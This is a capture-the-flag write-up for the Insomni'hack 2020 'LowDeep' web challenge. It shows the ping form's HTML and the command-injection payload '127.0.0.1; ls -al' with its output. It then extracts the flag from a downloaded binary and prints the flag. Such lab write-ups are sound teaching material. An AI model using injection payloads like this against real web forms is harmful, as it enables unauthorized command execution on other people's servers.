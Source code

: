 # Insomni'hack teaser 2020 – LowDeep

* **Category:** web
* **Points:** 36

## Challenge

> by patacrep & pwndawan
> 
> Try out our new ping platform: http://lowdeep.insomnihack.ch/

## Solution

The website contains a page where you can insert an IP address to ping.

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <title>Insomni'hack 2020 Teaser</title>
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/4.4.1/css/bootstrap.min.css">
  <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.4.1/jquery.min.js"></script>
  <script src="https://cdnjs.cloudflare.com/ajax/libs/popper.js/1.16.0/umd/popper.min.js"></script>
  <script src="https://maxcdn.bootstrapcdn.com/bootstrap/4.4.1/js/bootstrap.min.js"></script>
  <style>
  body {
 background-image: url("_res_/img/skull-slim.png");
 background-color: #cccccc;
}
  </style>
</head>

<body>
<div class="container p-3 my-3 bg-dark text-white">
  <h2>LowDeep Plateform </h2>
  <p>That's our new plateform to perform ping the easy way.</p>

  <form action="#" method="post">
    <div class="form-group">
      <label for="ip">Enter the IP address to ping:</label>
      <input type="text" class="form-control" id="ip" name="ipaddr">
    </div>
    <input type="submit" name="submit" value="Submit" class="btn btn-primary" />
    <div>
    	    </div>
  </form>
</div>
</body>
</html>
```

The `ping` command is launched via shell, so a command in the input field can be injected to execute arbitrary operations.

For example `127.0.0.1; ls -al` payload will give the following output.

```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.019 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.019/0.019/0.019/0.000 ms
total 28
drwxr-xr-x 3 root root 4096 Jan 17 09:57 .
drwxr-xr-x 3 root root 4096 Jan 7 16:52 ..
drwxr-xr-x 4 root root 4096 Jan 17 09:57 _res_
-rw-r--r-- 1 root root 1367 Jan 16 15:30 index.php
-rw-r--r-- 1 root root 6128 Jan 16 13:10 print-flag
-rw-r--r-- 1 root root 42 Jan 16 15:35 robots.txt 
```

Accessing to `http://lowdeep.insomnihack.ch/print-flag` will download the [`print-flag` file](print-flag).

Using `strings` will print the flag.

```
root@m3ss4p0:~# strings print-flag
/lib64/ld-linux-x86-64.so.2
O0\)
libc.so.6
puts
__cxa_finalize
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
AWAVI
AUATL
[]A\A]A^A_
INS{Wh1le_ld_k1nd_0f_forg0t_ab0ut_th3_x_fl4g}
;*3$"
GCC: (Ubuntu 7.4.0-1ubuntu1~18.04.1) 7.4.0
.shstrtab
.interp
.note.ABI-tag
.note.gnu.build-id
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.got
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.dynamic
.data
.bss
.comment
```

So the flag is the following.

```
INS{Wh1le_ld_k1nd_0f_forg0t_ab0ut_th3_x_fl4g}
```
